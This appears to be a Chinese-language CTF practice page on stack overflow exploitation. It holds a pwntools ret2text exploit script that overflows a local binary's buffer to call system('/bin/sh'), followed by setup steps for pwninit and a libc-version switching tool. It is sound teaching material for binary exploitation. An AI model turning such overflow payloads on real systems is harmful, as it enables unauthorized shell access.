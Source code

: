 ```yaml
---
sidebar_label: '练习题'
sidebar_position: 5
---
```


# 栈溢出

## ret2text

### ret2text0_x32

:star2:exp:

```
from pwn import *
context(os="linux",arch="i386",log_level="debug")
elf = ELF("ezr0p")
io = process("ezr0p")
sys_adr = elf.symbols["system"]
shell_adr = 0x804A080
callsys = 0x8048562
print("sys_adr -------> "+ hex(sys_adr))
# payload = b's' * (28+4) + p32(sys_adr) + p32(0)+ p32(shell_adr)
payload = b's' * (28+4) + p32(callsys)+ p32(shell_adr)
io.recvuntil(b"please tell me your name")
io.send(b"/bin/sh")
io.recvuntil(b"now it's your play time~")
io.send(payload)
io.interactive()
```

### ret2text1

若本地环境大于Ubuntu18，则需要使用clibc去将程序的glibc版本修改到旧版本，否则无法成功利用漏洞。

#### pwninit

确保pwninit、题目文件和libc文件在同一目录下（也可以将pwninit配置为环境变量）：

```bash
pwninit
```

之后会在本地生产修改libc的版本以及一个exp模板。

#### clibc

[下载链接](https://github.com/tower111/pwn-change-libc)

```bash
git clone https://github.com/tower111/pwn-change-libc
cd pwn-change-libc
```
